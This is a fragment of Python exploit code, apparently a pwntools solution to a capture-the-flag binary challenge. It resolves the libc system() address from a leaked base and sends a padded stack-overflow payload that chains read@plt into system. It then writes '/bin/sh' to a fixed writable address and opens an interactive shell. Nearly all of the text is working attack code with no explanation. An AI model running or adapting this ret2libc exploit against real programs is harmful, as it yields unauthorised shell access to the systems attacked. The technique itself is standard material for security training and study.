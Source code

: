 ```python
    system_addr = libc_base + libc.dump('system')
    log.info("system_addr = %#x",system_addr)

    p.send(payload1)
    p.recv()

    payload3 = 'B'*0xC + '-1' + 'B'*6
    payload3 += p32(read_plt) + p32(system_addr) + p32(0) + p32(0x0804A048) + p32(8) + p32(0x0804A048)
    p.send(payload3)
    sleep(1)
    p.send('/bin/sh\x00')
    sleep(1)
    p.interactive()
```
